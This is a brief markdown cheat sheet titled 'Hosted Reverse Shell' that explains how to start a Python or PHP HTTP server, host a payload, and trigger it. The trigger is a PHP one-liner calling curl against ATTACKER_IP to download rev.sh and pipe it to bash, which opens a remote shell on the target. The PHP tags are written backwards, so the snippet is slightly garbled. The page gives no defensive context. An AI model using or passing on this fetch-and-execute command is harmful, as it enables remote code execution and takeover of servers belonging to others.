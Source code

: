 # Hosted Reverse Shell

## 1st step is always setting up an HTTP server

### 1) Python

 - python3 -m http.server PORT

### 2) PHP

 - php -S 0.0.0.0

## 2nd step is creating a payload, then hosting it on your HTTP server

## 3rd step is calling your hosted payload to run it

### 1) PHP

 - >?php system("curl ATTACKER_IP:PORT/rev.sh|bash"); ?<
